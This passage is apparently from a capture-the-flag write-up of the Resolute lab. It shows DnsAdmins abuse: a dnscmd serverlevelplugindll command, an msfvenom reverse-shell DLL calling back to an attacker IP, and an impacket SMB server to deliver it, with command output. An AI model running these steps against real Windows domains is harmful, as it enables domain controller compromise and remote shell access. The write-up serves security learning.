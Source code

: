     
    
    dnscmd.exe /config /serverlevelplugindll \\path\to\dll
    

From [this blog post](https://medium.com/@esnesenon/feature-not-bug-dnsadmin-
to-dc-compromise-in-one-line-a0f779b8dc83):

> First, trying to run this as a weak domain user with no special permissions
> on the DNS server object (other than Generic Read, which is granted to all
> members of the Pre-Windows 2000 Compatible Access group, which by default
> contains the Domain Users group), the command fails with an access denied
> message. If we give our weak user write access to the server object, the
> command no longer fails. This means that members of DnsAdmins can
> successfully run this command.

Since ryan is in DnsAdmins, this is promising.

#### A Note About OPSEC

The attack here is to tell the DNS service on Resolute to use my dll as a
plugin. I’m going to use `msfvenom` to create a dll that will, on loading,
connect back to me. When `msfvenom` creates this payload, it will connect
back, and wait for that session to end before continuing. This will hang the
DNS service on Resolute. That’s fine for a CTF, but would make for a bad day
in a real pentest.

To get around this, you can create a payload that starts the reverse shell in
a new thread, and then continues, so that the DNS server can continue to
start. IppSec tells me he’s going to walk through creating this payload in his
video today if you are interested to check that out.

#### Create Payload

I’ll start with a basic `msfvenom` reverse shell payload as a dll. Defender is
running on this host, and if I put the output file there, it does get eaten,
but over a UNC path to a share it might be ok.

    
    
    root@kali# msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.11 LPORT=443 -f dll -o rev.dll
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x64 from the payload
    No encoder or badchars specified, outputting raw payload
    Payload size: 460 bytes
    Final size of dll file: 5120 bytes
    Saved as: rev.dll
    

Now, from that same directory, I’ll run an SMB server:

    
    
    root@kali# smbserver.py s .
    Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation
    
    [*] Config file parsed
    [*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
    [*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
    [*] Config file parsed
    [*] Config file parsed
    [*] Config file parsed
    